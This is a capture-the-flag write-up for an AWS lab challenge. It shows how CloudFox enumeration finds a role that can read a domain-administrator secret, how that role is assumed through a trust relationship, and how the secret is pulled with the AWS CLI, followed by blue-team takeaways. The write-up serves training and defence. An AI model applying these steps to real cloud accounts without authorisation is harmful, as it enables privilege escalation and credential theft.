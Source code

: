 ## Challenge Statement
In some challenges, you might not see an IAM role or an IP address as the starting point, but rather, an interesting ARN or something like that.

Sometimes during cloud penetration tests, we first find something interesting and then work backwards to see who has access to it. Is it just the Administrators? That’s not really a big deal. Is it all developers, or all users, or anyone in the world? That might be a *really* big deal!

In this challenge, we are tasked with finding out who has access to the **DomainAdministrator-Credentials** in Secrets Manager and then using the cloudfoxable profile to access that role and retrieve the secret.

---

## IAM Policy

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "secretsmanager:GetSecretValue"
      ],
      "Resource": "arn:aws:secretsmanager:us-west-2:ACCOUNT_ID:secret:DomainAdministrator-Credentials-XXXXXX"
    }
  ]
}
```

### IAM Policy Analysis

- **What do I have access to?**
  - I have access to call `secretsmanager:GetSecretValue` on a specific secret: `DomainAdministrator-Credentials`.
- **What don’t I have access to?**
  - I don’t have permissions to list all secrets or manage IAM users, roles, or trust relationships directly.
- **What do I find interesting?**
  - The policy is very tightly scoped to one secret — a good practice.
  - However, access to this powerful credential could still be sensitive depending on who has this permission.

---

## Solution

### Step 1: Identify Who Has Access to the Secret

```bash
cloudfox aws -p cloudfoxable permissions -v2 | grep -i secret
```

- Found that the role `Alexander-Arnold` has access to the target secret via `secretsmanager:GetSecretValue`.

### Step 2: Check Trust Relationships

```bash
cloudfox -p cloudfoxable role-trusts -v2
```

- Discovered that `Alexander-Arnold` role trusts `ctf-starting-user`, the identity used by the `cloudfoxable` profile.
- Even though `ctf-starting-user` lacks `sts:AssumeRole` explicitly, trust policy allows it implicitly since it is in the same account.

### Step 3: Assume the Role

Created a new AWS CLI profile in `~/.aws/config`:

```ini
[profile Alexander-Arnold]
region = us-west-2
role_arn = arn:aws:iam::ACCOUNT_ID:role/Alexander-Arnold
source_profile = cloudfoxable
```

### Step 4: Retrieve the Secret

```bash
aws secretsmanager get-secret-value   --secret-id DomainAdministrator-Credentials   --profile Alexander-Arnold   --region us-west-2
```

- Secret retrieved successfully.

### Final Flag

```
FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}
```

---

## Reflection

### What was your approach?
- Use CloudFox enumeration tools (`permissions` and `role-trusts`) to trace access to the secret.

### What was the biggest challenge?
- Understanding the behavior of AWS role trust relationships — specifically how roles can be assumed even without explicit `sts:AssumeRole` permissions.

### How did you overcome the challenges?
- Revisited the trust policy documentation and relied on CloudFox’s output to make the logical connection.

### What led to the breakthrough?
- Finding the `Alexander-Arnold` role and realizing it explicitly trusted `ctf-starting-user` — despite missing `sts:AssumeRole` permissions in the original identity’s policy.

### Blue Team Takeaway
- Always validate both **permissions policies** and **trust policies**.
- Sensitive roles should not be assumable solely based on trust policy unless strictly required.
- Use least privilege and audit role assumption activity regularly.
